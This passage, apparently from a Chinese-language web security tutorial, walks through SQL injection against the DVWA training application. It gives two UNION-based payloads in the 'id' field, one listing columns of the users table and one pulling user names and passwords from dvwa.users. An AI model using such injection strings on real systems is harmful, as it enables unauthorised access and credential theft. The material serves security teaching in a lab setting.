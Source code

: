 ![](img/508635f9-ff6b-4e05-ae39-453e45155d00.png)

1.  好的，我们知道数据库（或模式）叫做`dvwa`，我们正在寻找的表是`users`。由于我们只有两个位置来设置值，我们需要知道表的哪些列对我们有用；将`id`设置为`1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。

1.  最后，我们知道该查询具体要请求什么。将`id`设置为`1' union select user, password FROM dvwa.users -- '`：

![](img/55080009-b796-4844-acf7-72c5798ef9b9.png)
